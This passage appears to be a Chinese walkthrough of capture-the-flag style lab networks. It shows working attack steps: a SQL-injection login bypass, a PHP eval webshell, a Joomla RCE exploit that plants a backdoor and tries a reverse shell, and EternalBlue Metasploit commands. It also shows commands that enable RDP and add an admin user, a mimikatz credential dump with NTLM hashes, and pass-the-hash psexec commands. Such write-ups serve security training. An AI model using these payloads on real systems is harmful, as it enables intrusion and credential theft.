没抓到管理员hash

### 上线CS

#### 第一层

设置监听——生成后门——运行即可上线

​​

#### 第二层

转发上线——设置监听——建立socks代理——运行即可

​​

抓取hash

​​

拿到管理员hash

```
00f995cbe63fd30411f44d434b8dac98
```

### PTH

```
proxychains -q python3 psexec.py -hashes :00f995cbe63fd30411f44d434b8dac98 cyberstrikelab.com/administrator@192.168.20.20
```

​​

# lab5

## 信息收集

```
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.10 -p 1-65535
start
start infoscan
192.168.10.10:135 open
192.168.10.10:139 open
192.168.10.10:445 open
192.168.10.10:161 open udp
192.168.10.10:3306 open
192.168.10.10:5040 open
192.168.10.10:6582 open
192.168.10.10:7680 open
192.168.10.10:49669 open
192.168.10.10:49668 open
192.168.10.10:49664 open
192.168.10.10:49670 open
192.168.10.10:49665 open
192.168.10.10:49667 open
192.168.10.10:49666 open
4m21.2814156s
[*] alive ports len is: 15
start vulscan
已完成 0/15 [-] Ms17010 192.168.10.10 read tcp 172.16.233.2:4742->192.168.10.10:445: wsarecv: An existing connection was forcibly closed by the remote host.
[*] WebTitle http://192.168.10.10:6582 code:200 len:17532  title:BEES企业网站管理系统_企业建站系统_外贸网站建设_企业CMS_PHP营销企业网站
已完成 15/15
[*] 扫描结束,耗时: 4m57.4261318s
```

## 第一台机器

BEESCMS之前愚安科技的面试靶场做过

参考:

<https://c1oudfl0w0.github.io/blog/2023/07/02/%E8%AE%B0NSS%E7%9A%84%E4%B8%80%E6%AC%A1awd/#%E4%BC%AA%E9%80%A0%E7%99%BB%E5%BD%95>

<https://lusensec.github.io/2024/07/24/Code-Audit-PHP-Beescms/>

### 伪造登录

访问/admin登录页面

手动输入验证码然后抓包进行伪造登录

```
POST /admin/login.php?action=ck_login HTTP/1.1
Host: 192.168.10.10:6582
Content-Length: 148
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.10:6582
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.10:6582/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_template=default; PHPSESSID=q2bt6avp5n5qrckd6mjdkebfg5
Connection: close

user=-1'+uniselecton+selselectect+1,'admin','e10adc3949ba59abbe56e057f20f883e',0,0+%23&password=123456&code=a78a&submit=true&submit.x=60&submit.y=22
```

​​

看到302，去拦截的地方放包，放完之后就进后台了。

​​

### 文件上传

在网站设置中找到系统设置，添加可上传的后缀类型`|php`​

​​

访问<http://192.168.10.10:6582/admin/admin_file_upload.php>来到上传点

传入一句话木马

​​

地址:<http://192.168.10.10:6582/upload/file/1-20250206134004.php> 密码:a

连接成功，根路径找到flag

​​

```
go-flag{AT3yTHss1RX9QNPQ}
```

## Vshell&Stowaway搭建Socks5代理

​​

用Vshell搭的代理感觉有点不稳定后面换了Stowaway

​​

```
192.168.20.30:139 open
192.168.20.20:139 open
192.168.20.10:7680 open
192.168.20.30:88 open
192.168.20.20:8080 open
192.168.20.10:139 open
192.168.20.10:3306 open
192.168.20.30:445 open
192.168.20.20:445 open
192.168.20.10:445 open
192.168.20.30:135 open
192.168.20.20:135 open
192.168.20.10:135 open
192.168.20.20:8009 open
[*] NetInfo 
[*]192.168.20.30
   [->]WIN-7NRTJO59O7N
   [->]192.168.20.30
[+] MS17-010 192.168.20.30	(Windows Server 2008 R2 Standard 7600)
[*] NetInfo 
[*]192.168.20.20
   [->]cyberweb
   [->]192.168.20.20
NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.20.20:8080 code:200 len:1554   title:Welcome to JBoss AS
[+] InfoScan http://192.168.20.20:8080 [Jboss] 
```

## 第二台机器

​​

​​

## 第三台机器

```
proxychains -q msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 192.168.20.30
set lport 1433
exploit
```

不知道为什么死活没成功

​​

这也没杀软呀.....

这里也没开3389，没办法用工具箱打创建用户的那个手法

只能执行命令了

```
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 192.168.20.30
set COMMAND type C:\flag.txt
run
```

​​

```
go-flag{Cfg8hlBj4dXppo5j}
```

# lab6

## 信息收集

```
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.10/24
start
start infoscan
(icmp) Target 192.168.10.10   is alive
(icmp) Target 192.168.10.20   is alive
(icmp) Target 192.168.10.233  is alive
[*] Icmp alive hosts len is: 3
192.168.10.10:445 open
192.168.10.20:445 open
192.168.10.233:22 open
192.168.10.10:80 open
192.168.10.20:7001 open
192.168.10.10:3306 open
192.168.10.10:135 open
192.168.10.20:135 open
192.168.10.233:8080 open
192.168.10.10:139 open
192.168.10.20:139 open
4.4092627s
[*] alive ports len is: 11
start vulscan
[*] NetInfo
[*]192.168.10.10
   [->]WIN-P5ECGG92B08
   [->]192.168.10.10
[*] WebTitle https://192.168.10.233:8080 code:404 len:19     title:None
NetBios 192.168.10.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.10.10      code:200 len:6060   title:Home
[*] WebTitle http://192.168.10.20:7001 code:404 len:1164   title:Error 404--Not Found
[+] InfoScan http://192.168.10.20:7001 [weblogic]
```

## 第一台机器

​​

### 漏洞发现

Joomscan扫描

```
┌──(root㉿zss)-[/home/zss/桌面/fscan]
└─# joomscan -u http://192.168.10.10
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://192.168.10.10 ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.4.6

[+] Core Joomla Vulnerability
[++] Joomla! 3.4.4 < 3.6.4 - Account Creation / Privilege Escalation
CVE : CVE-2016-8870 , CVE-2016-8869 
EDB : https://www.exploit-db.com/exploits/40637/

Joomla! Core Remote Privilege Escalation Vulnerability
CVE : CVE-2016-9838
EDB : https://www.exploit-db.com/exploits/41157/

Joomla! Core Security Bypass Vulnerability
CVE : CVE-2016-9081
https://developer.joomla.org/security-centre/661-20161003-core-account-modifications.html

Joomla! Core Arbitrary File Upload Vulnerability
CVE : CVE-2016-9836
https://developer.joomla.org/security-centre/665-20161202-core-shell-upload.html

Joomla! Information Disclosure Vulnerability
CVE : CVE-2016-9837
https://developer.joomla.org/security-centre/666-20161203-core-information-disclosure.html

PHPMailer Remote Code Execution Vulnerability
CVE : CVE-2016-10033
https://www.rapid7.com/db/modules/exploit/multi/http/phpmailer_arg_injection
https://github.com/opsxcq/exploit-CVE-2016-10033
EDB : https://www.exploit-db.com/exploits/40969/

PPHPMailer Incomplete Fix Remote Code Execution Vulnerability
CVE : CVE-2016-10045
https://www.rapid7.com/db/modules/exploit/multi/http/phpmailer_arg_injection
EDB : https://www.exploit-db.com/exploits/40969/


[+] Checking Directory Listing
[++] directory has directory listing : 
http://192.168.10.10/administrator/components
http://192.168.10.10/administrator/modules
http://192.168.10.10/administrator/templates
http://192.168.10.10/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://192.168.10.10/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found


Your Report : reports/192.168.10.10/

```

发现版本是Joomla 3.4.6，存在RCE

### 漏洞利用

直接打EXP

<https://github.com/kiks7/rusty_joomla_rce>

```
C:\Users\35031\Downloads\rusty_joomla_rce-master>python3 rusty_joomla_exploit.py -t http://192.168.10.10/ -c
[*] Starting ..
[*] Target URL: http://192.168.10.10/index.php/component/users
[*] Getting Session Cookie ..
[*] Getting CSRF Token ..
[*] Sending request ..
[+] Vulnerable
[*] Use --exploit to exploit it

C:\Users\35031\Downloads\rusty_joomla_rce-master>python3 rusty_joomla_exploit.py -t http://192.168.10.10/ -e -l quan.joomla346.net -p 80
[*] Starting ..
[*] Target URL: http://192.168.10.10/index.php/component/users
[*] Getting Session Cookie ..
[*] Getting CSRF Token ..
[*] Sending request ..
[+] Vulnerable
[*] Getting Session Cookie ..
[*] Getting CSRF Token ..
[*] Sending request ..
[+] Backdoor implanted, eval your code at http://192.168.10.10//configuration.php in a POST with wtuczdztciaatuebzxgvyayobyenzymopjjvmjwgyzwrypwips
[*] Now it's time to reverse, trying with a system + perl
```

连接即可

​​

## 第二台机器

Weblogic直接工具梭哈

​​

​​

​​

​​

连接即可

## Vshell搭建Socks5代理

​​

## 第三台机器

​​

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/admin/smb/ms17_010_command
msf6 auxiliary(admin/smb/ms17_010_command) > set RHOSTS 192.168.20.30
RHOSTS => 192.168.20.30
msf6 auxiliary(admin/smb/ms17_010_command) > set COMMAND type C:\flag.txt
COMMAND => type C:\flag.txt
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.20.30:445     - Target OS: Windows Server 2016 Standard 14393
[*] 192.168.20.30:445     - Built a write-what-where primitive...
[+] 192.168.20.30:445     - Overwrite complete... SYSTEM session obtained!
[+] 192.168.20.30:445     - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.20.30:445     - Getting the command output...
[*] 192.168.20.30:445     - Executing cleanup...
[+] 192.168.20.30:445     - Cleanup was successful
[+] 192.168.20.30:445     - Command completed successfully!
[*] 192.168.20.30:445     - Output for "type C:\flag.txt":

go-flag{kqqjRIRRoiJO5JIm}

[*] 192.168.20.30:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

​​

# lab7

## 信息收集

## 第一台机器

```
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.10/24
start
start infoscan
(icmp) Target 192.168.10.10   is alive
(icmp) Target 192.168.10.233  is alive
[*] Icmp alive hosts len is: 2
192.168.10.10:139 open
192.168.10.233:22 open
192.168.10.233:8080 open
192.168.10.10:445 open
192.168.10.10:7680 open
192.168.10.10:135 open
192.168.10.10:3306 open
2.7156369s
[*] alive ports len is: 7
start vulscan
[*] WebTitle https://192.168.10.233:8080 code:404 len:19     title:None
E:\Tool\fscan-gw - 0.1>fscan-gw.exe -h 192.168.10.10 -p 1-65535
start
start infoscan
192.168.10.10:135 open
192.168.10.10:139 open
192.168.10.10:445 open
192.168.10.10:161 open udp
192.168.10.10:3306 open
192.168.10.10:5040 open
192.168.10.10:7680 open
192.168.10.10:9652 open
192.168.10.10:49664 open
192.168.10.10:49665 open
192.168.10.10:49666 open
192.168.10.10:49667 open
192.168.10.10:49668 open
192.168.10.10:49669 open
192.168.10.10:49670 open
4m13.2813925s
[*] alive ports len is: 15
start vulscan
已完成 0/15 [-] Ms17010 192.168.10.10 read tcp 172.16.233.2:1988->192.168.10.10:445: wsarecv: An existing connection was forcibly closed by the remote host.
已完成 0/15 [-] mysql 192.168.10.10:3306 root 123456 Error 1130: Host '192.168.122.47' is not allowed to connect to this MySQL server
[*] WebTitle http://192.168.10.10:9652 code:200 len:14653  title:网站标题-网站标题 - Powered By BageCMS
已完成 15/15
[*] 扫描结束,耗时: 4m49.3586414s
```

<http://192.168.10.10:9652/install.txt>

找到后台

```
1.上传 upload 目录中所有文件至服务器
2.打开浏览器，输入 你的网址 /index.php?r=install
3.系统会检测 BageCMS 依赖环境及组件，根据提示解决不满足的组件
4.输入数据库及相关信息，安装系统
5.安装完成，后台登录地址 你的网址 /index.php?r=admini

提示：如果选择了安装测试数据，请将 _tmp/201309.tar.gz 文件解压，请上传目录 201309 及文件至 uploads/下，否则测试用到的图片将不能正常显示
```

<http://192.168.10.10:9652/index.php?r=admini>

弱口令admin::admin123456进入后台

​​

查看后台的功能点，有模板功能，可以直接修改文件，修改tag下的index.php文件，插入webshell

```
<?php @eval($_REQUEST['a']);phpinfo();?>
```

​​

## Vshell搭建Socks5代理

​​

```
192.168.20.10:139 open
192.168.20.40:135 open
192.168.20.40:88 open
192.168.20.20:3306 open
192.168.20.10:3306 open
192.168.20.40:445 open
192.168.20.20:445 open
192.168.20.10:445 open
192.168.20.40:139 open
192.168.20.20:139 open
192.168.20.20:135 open
192.168.20.10:135 open
192.168.20.10:7680 open
[*] NetInfo 
[*]192.168.20.20
   [->]cyberweb
   [->]192.168.20.20
[*] NetInfo 
[*]192.168.20.40
   [->]WIN-137FCI4D99A
   [->]192.168.20.40
NetBios 192.168.20.40   [+] DC:WIN-137FCI4D99A.cyberstrikelab.com      Windows Server 2016 Standard 14393
NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[+] MS17-010 192.168.20.40	(Windows Server 2016 Standard 14393)
192.168.20.20:139 open
192.168.20.20:135 open
192.168.20.20:445 open
192.168.20.20:161 open udp
192.168.20.20:3306 open
192.168.20.20:5985 open
192.168.20.20:47001 open
192.168.20.20:49159 open
192.168.20.20:49158 open
192.168.20.20:49157 open
192.168.20.20:49156 open
192.168.20.20:49155 open
192.168.20.20:49154 open
192.168.20.20:49153 open
192.168.20.20:49152 open
[*] NetInfo 
[*]192.168.20.20
   [->]cyberweb
   [->]192.168.20.20
[*] WebTitle http://192.168.20.20:47001 code:404 len:315    title:Not Found
NetBios 192.168.20.20   cyberweb.cyberstrikelab.com         Windows Server 2012 R2 Standard 9600
[*] WebTitle http://192.168.20.20:5985 code:404 len:315    title:Not Found
```

估计要拿下域控PTH到第二台机器

## 第三台机器

```
use auxiliary/admin/smb/ms17_010_command
set RHOSTS 192.168.20.30
set COMMAND type C:\flag.txt
run
```

​​

## 第二台机器

开启3389，创建用户

```
set COMMAND 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
set COMMAND net user hack01 1324@cbD /add
set COMMAND net localgroup Administrators hack01 /add
```

远程连接遇到报错参考:<https://blog.csdn.net/Dancen/article/details/107334996>

上传mimikatz抓取hash

​​

```
C:\Users\hack01\Desktop>mimikatz.x64.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 685229 (00000000:000a74ad)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/8 9:21:48
SID               : S-1-5-90-0-2
    msv :
     [00000005] Primary
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 80519099fc6b147355b7ca33b97fc605
     * SHA1     : b7c456a736f7dc2ce3439801f5be00a2ce3c36db
    tspkg :
    wdigest :
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : WIN-137FCI4D99A$
     * Domain   : cyberstrikelab.com
     * Password : 02 53 7d 51 8b 38 dc 8f e7 56 e3 bc 5b 9c d5 28 92 b3 80 a1 fd 61 06 16 7f 46 18 1f 8f 6b 6c 2c c6 40 c5 d5 b0 6e f7 28 ba 4f 69 08 2c 40 db 09 32 88 91 7e c3 51 63 9e f2 77 81 2f 17 12 0c 80 6c 5b f1 99 ee df 51 ad 60 ff 92 32 b6 d1 10 28 41 be 4f 99 5d 83 b1 5e 57 35 c3 20 bf fd 6a a6 dc 68 ba 41 62 a0 12 60 39 0d a2 33 e1 4d 68 de 66 70 a5 50 4c 39 b8 9b 73 dd 50 24 8f f4 db c5 b5 38 7f 7d 28 03 59 0f 98 87 83 51 22 36 d0 1f 97 2c f2 c5 16 35 74 9d 7e 84 d0 4f 23 e4 98 9c 4d 4a ed ff 4b 4e 7c 2d f6 3e c5 48 29 7e 46 0c 93 eb 9e fd 58 2a 34 21 cc 8b db 07 1b d2 09 2e 6c 97 22 66 7e 57 7e 06 ec 48 8e f2 34 8b c8 dc 29 7a ca f4 fc 8a 97 0b 6b 86 35 01 db c5 aa dc 85 e4 91 bb fd db a7 31 72 77 22 65 c0 e4 63 a7 
    ssp :
    credman :

Authentication Id : 0 ; 163244 (00000000:00027dac)
Session           : Interactive from 1
User Name         : administrator
Domain            : CYBERSTRIKELAB
Logon Server      : WIN-137FCI4D99A
Logon Time        : 2025/2/8 1:07:26
SID               : S-1-5-21-872286713-4064401005-816145520-500
    msv :
     [00000005] Primary
     * Username : Administrator
     * Domain   : CYBERSTRIKELAB
     * NTLM     : d8174fc8c5ee7a8e460df2e61d00bd3c
     * SHA1     : ffb7f3e67f7387f21dca81cf243532f3724891a5
     * DPAPI    : c1872bd77eabc52b38686161971ba7c6
    tspkg :
    wdigest :
     * Username : Administrator
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : administrator
     * Domain   : CYBERSTRIKELAB.COM
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 52225 (00000000:0000cc01)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/8 1:06:40
SID               : S-1-5-90-0-1
    msv :
     [00000005] Primary
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 1330873b86b0e5e80e3dd3dcbda25df4
     * SHA1     : 3e649c844ac26c01d40c29f865570f42810bebe6
    tspkg :
    wdigest :
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : WIN-137FCI4D99A$
     * Domain   : cyberstrikelab.com
     * Password : ed d5 04 c9 81 8c b1 4f 1c 6e ac 4e 5b cf 5b 7f 1f b2 cc ea 8c 34 4b 33 c6 fd 03 8d f1 c2 6f c3 04 2c a5 14 8b cf 51 24 00 1d 35 a9 82 98 1a 6a aa c9 3c 2a 15 d7 de 7b f0 78 ae 82 15 ea 4e 31 3c 61 38 c1 ac df e2 0b 8a 5c e6 5f 5c ff d2 f7 ff 9b e1 ab 66 9b 28 7e 2f b3 d0 12 8f fe 7d d8 63 cc 8f 32 c7 12 94 85 8d be dd a4 c0 da b0 90 55 42 35 d5 9b 29 86 4f 13 f9 06 59 1d 46 5b 1c 45 98 6c 13 a5 29 14 9e f0 6a 57 32 82 6d 38 fb 41 99 36 f0 fd 6c 35 4c f7 85 ab 0a 0d 4e 9e 40 03 ed d6 8c a3 c8 71 9a fb 73 e7 23 99 da 77 f5 07 30 b1 92 66 ea 62 30 89 22 f1 d6 e9 36 2b f9 4a 34 b0 b4 cc f8 7a 49 12 7d 25 c7 d7 21 f3 3a 5e 96 6a f0 8e 95 fc d3 ec c2 b1 aa 8c 8d 63 6d 67 c5 94 1c dd 97 b4 49 ed 19 dd 1e ef 9e 32 24 
    ssp :
    credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-137FCI4D99A$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/2/8 1:06:39
SID               : S-1-5-20
    msv :
     [00000005] Primary
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 80519099fc6b147355b7ca33b97fc605
     * SHA1     : b7c456a736f7dc2ce3439801f5be00a2ce3c36db
    tspkg :
    wdigest :
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : win-137fci4d99a$
     * Domain   : cyberstrikelab.com
     * Password : 02 53 7d 51 8b 38 dc 8f e7 56 e3 bc 5b 9c d5 28 92 b3 80 a1 fd 61 06 16 7f 46 18 1f 8f 6b 6c 2c c6 40 c5 d5 b0 6e f7 28 ba 4f 69 08 2c 40 db 09 32 88 91 7e c3 51 63 9e f2 77 81 2f 17 12 0c 80 6c 5b f1 99 ee df 51 ad 60 ff 92 32 b6 d1 10 28 41 be 4f 99 5d 83 b1 5e 57 35 c3 20 bf fd 6a a6 dc 68 ba 41 62 a0 12 60 39 0d a2 33 e1 4d 68 de 66 70 a5 50 4c 39 b8 9b 73 dd 50 24 8f f4 db c5 b5 38 7f 7d 28 03 59 0f 98 87 83 51 22 36 d0 1f 97 2c f2 c5 16 35 74 9d 7e 84 d0 4f 23 e4 98 9c 4d 4a ed ff 4b 4e 7c 2d f6 3e c5 48 29 7e 46 0c 93 eb 9e fd 58 2a 34 21 cc 8b db 07 1b d2 09 2e 6c 97 22 66 7e 57 7e 06 ec 48 8e f2 34 8b c8 dc 29 7a ca f4 fc 8a 97 0b 6b 86 35 01 db c5 aa dc 85 e4 91 bb fd db a7 31 72 77 22 65 c0 e4 63 a7 
    ssp :
    credman :

Authentication Id : 0 ; 716707 (00000000:000aefa3)
Session           : RemoteInteractive from 2
User Name         : hack01
Domain            : CYBERSTRIKELAB
Logon Server      : WIN-137FCI4D99A
Logon Time        : 2025/2/8 9:21:52
SID               : S-1-5-21-872286713-4064401005-816145520-1107
    msv :
     [00000005] Primary
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * NTLM     : c157e440a12221bf1facadd768c904b4
     * SHA1     : 97fa0a91687d085a5dc0d4ef507a3210d6132030
     * DPAPI    : 9699b3de7636e643efe40671208757ce
    tspkg :
    wdigest :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB.COM
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 716669 (00000000:000aef7d)
Session           : RemoteInteractive from 2
User Name         : hack01
Domain            : CYBERSTRIKELAB
Logon Server      : WIN-137FCI4D99A
Logon Time        : 2025/2/8 9:21:52
SID               : S-1-5-21-872286713-4064401005-816145520-1107
    msv :
     [00000005] Primary
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * NTLM     : c157e440a12221bf1facadd768c904b4
     * SHA1     : 97fa0a91687d085a5dc0d4ef507a3210d6132030
     * DPAPI    : 9699b3de7636e643efe40671208757ce
    tspkg :
    wdigest :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : hack01
     * Domain   : CYBERSTRIKELAB.COM
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 685246 (00000000:000a74be)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/8 9:21:48
SID               : S-1-5-90-0-2
    msv :
     [00000005] Primary
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 80519099fc6b147355b7ca33b97fc605
     * SHA1     : b7c456a736f7dc2ce3439801f5be00a2ce3c36db
    tspkg :
    wdigest :
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : WIN-137FCI4D99A$
     * Domain   : cyberstrikelab.com
     * Password : 02 53 7d 51 8b 38 dc 8f e7 56 e3 bc 5b 9c d5 28 92 b3 80 a1 fd 61 06 16 7f 46 18 1f 8f 6b 6c 2c c6 40 c5 d5 b0 6e f7 28 ba 4f 69 08 2c 40 db 09 32 88 91 7e c3 51 63 9e f2 77 81 2f 17 12 0c 80 6c 5b f1 99 ee df 51 ad 60 ff 92 32 b6 d1 10 28 41 be 4f 99 5d 83 b1 5e 57 35 c3 20 bf fd 6a a6 dc 68 ba 41 62 a0 12 60 39 0d a2 33 e1 4d 68 de 66 70 a5 50 4c 39 b8 9b 73 dd 50 24 8f f4 db c5 b5 38 7f 7d 28 03 59 0f 98 87 83 51 22 36 d0 1f 97 2c f2 c5 16 35 74 9d 7e 84 d0 4f 23 e4 98 9c 4d 4a ed ff 4b 4e 7c 2d f6 3e c5 48 29 7e 46 0c 93 eb 9e fd 58 2a 34 21 cc 8b db 07 1b d2 09 2e 6c 97 22 66 7e 57 7e 06 ec 48 8e f2 34 8b c8 dc 29 7a ca f4 fc 8a 97 0b 6b 86 35 01 db c5 aa dc 85 e4 91 bb fd db a7 31 72 77 22 65 c0 e4 63 a7 
    ssp :
    credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/2/8 1:06:41
SID               : S-1-5-19
    msv :
    tspkg :
    wdigest :
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 52205 (00000000:0000cbed)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/8 1:06:40
SID               : S-1-5-90-0-1
    msv :
     [00000005] Primary
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 80519099fc6b147355b7ca33b97fc605
     * SHA1     : b7c456a736f7dc2ce3439801f5be00a2ce3c36db
    tspkg :
    wdigest :
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : WIN-137FCI4D99A$
     * Domain   : cyberstrikelab.com
     * Password : 02 53 7d 51 8b 38 dc 8f e7 56 e3 bc 5b 9c d5 28 92 b3 80 a1 fd 61 06 16 7f 46 18 1f 8f 6b 6c 2c c6 40 c5 d5 b0 6e f7 28 ba 4f 69 08 2c 40 db 09 32 88 91 7e c3 51 63 9e f2 77 81 2f 17 12 0c 80 6c 5b f1 99 ee df 51 ad 60 ff 92 32 b6 d1 10 28 41 be 4f 99 5d 83 b1 5e 57 35 c3 20 bf fd 6a a6 dc 68 ba 41 62 a0 12 60 39 0d a2 33 e1 4d 68 de 66 70 a5 50 4c 39 b8 9b 73 dd 50 24 8f f4 db c5 b5 38 7f 7d 28 03 59 0f 98 87 83 51 22 36 d0 1f 97 2c f2 c5 16 35 74 9d 7e 84 d0 4f 23 e4 98 9c 4d 4a ed ff 4b 4e 7c 2d f6 3e c5 48 29 7e 46 0c 93 eb 9e fd 58 2a 34 21 cc 8b db 07 1b d2 09 2e 6c 97 22 66 7e 57 7e 06 ec 48 8e f2 34 8b c8 dc 29 7a ca f4 fc 8a 97 0b 6b 86 35 01 db c5 aa dc 85 e4 91 bb fd db a7 31 72 77 22 65 c0 e4 63 a7 
    ssp :
    credman :

Authentication Id : 0 ; 23286 (00000000:00005af6)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/2/8 1:06:35
SID               : 
    msv :
     [00000005] Primary
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * NTLM     : 80519099fc6b147355b7ca33b97fc605
     * SHA1     : b7c456a736f7dc2ce3439801f5be00a2ce3c36db
    tspkg :
    wdigest :
    kerberos :
    ssp :
    credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-137FCI4D99A$
Domain            : CYBERSTRIKELAB
Logon Server      : (null)
Logon Time        : 2025/2/8 1:06:35
SID               : S-1-5-18
    msv :
    tspkg :
    wdigest :
     * Username : WIN-137FCI4D99A$
     * Domain   : CYBERSTRIKELAB
     * Password : (null)
    kerberos :
     * Username : win-137fci4d99a$
     * Domain   : CYBERSTRIKELAB.COM
     * Password : (null)
    ssp :
    credman :

mimikatz # 
```

得到Administrator的hash

```
d8174fc8c5ee7a8e460df2e61d00bd3c
```

### PTH

```
python3 psexec.py -hashes :d8174fc8c5ee7a8e460df2e61d00bd3c cyberstrikelab.com/administrator@192.168.20.20
```


